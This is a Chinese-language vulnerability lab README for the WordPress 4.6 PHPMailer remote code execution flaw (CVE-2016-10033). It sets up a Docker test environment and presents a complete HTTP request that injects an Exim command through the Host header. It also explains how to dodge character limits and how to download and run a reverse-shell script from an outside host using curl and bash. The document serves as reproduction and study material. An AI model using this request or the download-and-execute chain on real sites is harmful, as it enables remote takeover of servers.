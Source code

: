 # Wordpress 4.6 任意命令执行漏洞（PHPMailer）

## 原理

参考 https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 测试环境

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

成功运行后，打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 测试与EXP使用

发送如下数据包，可见`/tmp/success`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

1. 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
2. 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
3. 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
4. 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
5. 依次发送这两个拼接好的数据包

我将上述过程写成[exp脚本](exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

执行即可获得shell：

![](1.png)